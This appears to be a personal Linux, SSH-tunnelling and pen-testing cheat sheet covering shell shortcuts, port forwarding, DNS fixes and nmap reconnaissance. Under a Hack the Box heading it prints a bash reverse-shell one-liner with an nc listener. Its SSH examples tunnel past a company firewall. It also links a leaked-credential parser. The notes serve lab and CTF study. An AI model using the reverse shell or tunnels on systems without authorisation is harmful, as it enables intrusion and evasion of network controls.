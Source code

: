 
### Common commands
```sh
$ hostname                   # show or set system's hostname
$  history | grep netstat    # search the command  history
$ cd -                       # navigate to previous directory
$ Ctrl + A                   # navigate to start of command
$ Ctrl + E                   # navigate to the end of command
$_ shell variable            # in bash, is the last argument given to the previous command
!$ shell variable            # in bash, gives the last argument of previous command in the shell history
mkdir -p a/b/c/d/e && cd $_  # create folder and switch to it
$! shell variable            # the PID of the last executed command
du -ch                       # estimate file space usage
su -                         # switch to root user
tar -xvf file.tar            # extract file
```



### SSH Port Forwarding

**Local port forwarding:** lets you connect from your local computer to another server.
* **Example1**: you need to connect from your company computer to your home computer,
but the RDP port (3389) is blocked by company firewall 
on the WORK:   ```ssh -L 8181:<home_ip>:3389  <home_ssh_user>@<home_ip>```
then - access RDP connection with localhost:8181 (from WORK)


**Reverse Port Forwarding**: Remote port forwarding lets you connect from the remote SSH server to another server.
you need to connect from your home computer to your  company computer,
on the WORK:   ```ssh -R 8181:localhost:3389  <home_ssh_user>@<home_ip>```
then - access RDP connection with localhost:8181  (from HOME)

Good explanation (from https://unix.stackexchange.com/questions/46235/how-does-reverse-ssh-tunneling-work)
* **local: -L Specifies that the given port on the local (client) host is to be forwarded to the given host and port on the remote side.**
```ssh -L sourcePort:forwardToHost:onPort connectToHost``` means: connect with ssh to ```connectToHost```, and forward all connection attempts to the **local** ```sourcePort``` to port ```onPort``` on the machine called ```forwardToHost```, which can be reached from the ```connectToHost``` machine.


* **remote: -R Specifies that the given port on the remote (server) host is to be forwarded to the given host and port on the local side.**
```ssh -R sourcePort:forwardToHost:onPort connectToHost``` means: connect with ssh to ```connectToHost```, and forward all connection attempts to the **remote** ```sourcePort``` to port ```onPort``` on the machine called ```forwardToHost```, which can be reached from your local machine.


**Dynamic Port forwarding**: Dynamic port forwarding turns your SSH client into a SOCKS proxy server.
* **Example1**: on the work machine there is a filter on the port 80 
```ssh -D 8181 <home_ssh_user>@<home_ip>```
the will need to change Chrome setings to point to the created proxy



### Network commands
```sh
$ ifconfig                   # configure/view network interfaces
$ ping -c 5 www.google.com   # ping 5 times
$ arp                        # manipulate the system ARP cache
```


### Magic bytes
* https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/
* Example: 
 ```$ echo "GIF8;" > testfile.file```
 ```$ file testfile.file```   # outputs  **testfile.file: GIF image data**



### Hack the box
https://0x00sec.org/t/my-hackthebox-ctf-methodology-from-fresh-box-to-root/13980

**Bach reverse shell**
* https://github.com/fijimunkii/bash-dev-tcp/blob/master/reverse-shell
Example: ```bash -i >& /dev/tcp/10.10.14.150/9001 0>&1```   plus   ```nc -lvnp 9001``` to listen


### DNS configuration issues

**ping: www.google.com: Temporary failure in name resolution**

* https://stackoverflow.com/questions/53687051/ping-google-com-temporary-failure-in-name-resolution
* https://www.tecmint.com/set-permanent-dns-nameservers-in-ubuntu-debian/
 
    On modern Linux systems that use systemd (system and service manager), the DNS or name resolution services are provided to local applications via the systemd-resolved service. 
    It uses the systemd DNS stub file (**/run/systemd/resolve/stub-resolv.conf**) in the default mode of operation.
    The DNS stub file contains the local stub **127.0.0.53** as the only DNS server.
    
    ```ls -l /etc/resolv.conf``` - you will see that this file is a symlink to the /run/systemd/resolve/stub-resolv.conf file.
    Unfortunately, because the /etc/resolv.conf is indirectly managed by the systemd-resolved service, any changes made manually by a user can not be saved permanently or only last for a while.
    
    Quick fix - just to modify the **/etc/resolv.conf** to 8.8.8.8



## Open VPN server
Install and configure 
* https://interface31.ru/tech_it/2019/10/nastroyka-openvpn-servera-dlya-dostupa-v-internet.html  (russian)

**restart**
```
sudo systemctl stop openvpn@server
sudo systemctl enable openvpn@server.service
sudo systemctl start openvpn@server
```


## Start a python2 web server

 ``` python -m SimpleHTTPServer 80```
 
 
 ## Pen Testing
 * **Target validation** - WHOIS, nslookup, dnsrecon
 * **Finding subdomains** - Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc
 * **Fingerprinting** - nmap, Wappalyzer, BuiltWith, Netcat
 * **Data Breaches** - HaveIBeenPwned and similar
 * **Also** - Nikto, Nessus, Burp Suite, dirbuster, searchsploit, metasploit, 
 * parsing leaked credentials - https://github.com/hmaverickadams/breach-parse

### nmap (press UP key to see the status)
* **TCP**  - SYN - SYN ACK - ACK 
* **nmap** -  SYN - SYN ACK - RST
1. **nmap "ping scan"** - ``` nmap -sn 10.0.2.0/24```  show all the nodes in a network
2. ```nmap -T4 <host>``` - top 1000 widely used ports scanned 
3. ```nmap -T4 -p- <host>``` - all ports scanned 
4. ```nmap -sC -sV -oA output <host>``` - this seems faster 
5. ```nmap -T4 -p22,80,443 <host>``` - selective ports scanned (can add here ```-A``` for more info)
6. ```/usr/share/nmap/scripts``` - nmap usefull scripts (example  ```nmap -p443 --script=ssl-enum-ciphers utm.md```)



